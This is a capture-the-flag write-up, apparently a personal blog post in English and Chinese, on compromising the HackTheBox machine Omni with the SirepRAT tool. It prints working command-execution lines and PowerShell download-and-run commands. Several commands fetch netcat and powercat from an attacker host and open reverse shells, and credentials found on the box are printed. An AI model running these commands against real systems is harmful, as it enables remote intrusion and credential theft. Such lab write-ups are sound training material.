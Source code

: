 ```yaml
---
layout: post
title:  "HackTheBox >_ Omni_204"
description: walkthrough
category: HackTheBox
---
```


# Omni_204


![]({{ site.url }}/assets/Omni_204.assets/20210110100820058_816768569.png)

`rustscan 10.10.10.204 -b 924 -t 1500 --no-nmap`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-44-49.png)

`sudo nmap -p135,8080,29817,29819,29820 -sV -oX sploit.xml 10.10.10.204; searchsploit --nmap sploit.xml`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-58-07.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-58-59.png)

`sudo nmap -T4 -v -Pn --script=vuln -p135,8080,29817,29819,29820 10.10.10.204`

## 8080

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-49-35.png)

We got `windows device portal`, do some search to find a defult credential

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-08-51-23.png)

`Administrator:p@ssw0rd`

But this doesn't work.

Search for exploit

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-18-53.png)

https://github.com/SafeBreach-Labs/SirepRAT

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-28-11.png)

`git clone https://github.com/SafeBreach-Labs/SirepRAT.git`

`pip2 install -r requirements.txt`

`python -m SimpleHTTPServer 8080`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c dir"`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-47-44.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c net user" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-09-49-55.png)

We can run cmd now

try some commend to translate file to target, but didn't work.

`certutil -urlcache -split -f http://10.10.14.22:8080/nc.exe`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.22:8080/powercat.ps1');powercat -c 10.10.14.22 -p 1337 -ep`



`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc.exe -Uri http://10.10.14.22:8080/nc.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-30-35.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-32-30.png)

传输成功

now run nc to connect black to kali

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc.exe 10.10.14.22 1337 -e cmd.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-35-12.png)

版本不正确，上传64位nc并重复上面的步骤

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\temp\\nc64.exe 10.10.14.22 1337 -e cmd.exe" --v`

获得shell

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-10-53-04.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\temp\\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe" --v`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-14-07.png)

`powershell Invoke-Webrequest -OutFile C:\temp\winPEAS.exe -Uri http://10.10.14.22:8080/winPEAS.exe`


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-57-25.png)
检查文件系统
`Get-PsDrive -PsProvider FileSystem`

发现还有其他分区

![](_v_images/20201128101521539_23549.png)

![](_v_images/20201128102301475_11825.png)

![](_v_images/20201128102224790_31070.png)

`app:mesh5143`
`administrator:_1nt3rn37ofTh1nGz`

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-19-25.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-20-27.png)

`python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -Uri http://10.10.14.22:8080/nc64.exe" --v`

C:\Windows\System32\spool\drivers\color\nc64.exe

C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1338 -e powershell.exe


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-37-57.png)


![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-38-46.png)

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-43-34.png)

```powershell
$credential = Import-CliXml -Path U:\Users\app\user.txt
$credential.GetNetworkCredential().Password
```

![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-45-53.png)


这个页面是没有注销的，需要关闭浏览器即可重新使用另外的凭证登陆

`administrator:_1nt3rn37ofTh1nGz`

`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.22 1339 -e powershell.exe`

```powershell
$credential = Import-CliXml -Path U:\Users\administrator\root.txt
$credential.GetNetworkCredential().Password
```
![]({{ site.url }}/assets/Omni_204.assets/2020-11-08-11-54-10.png)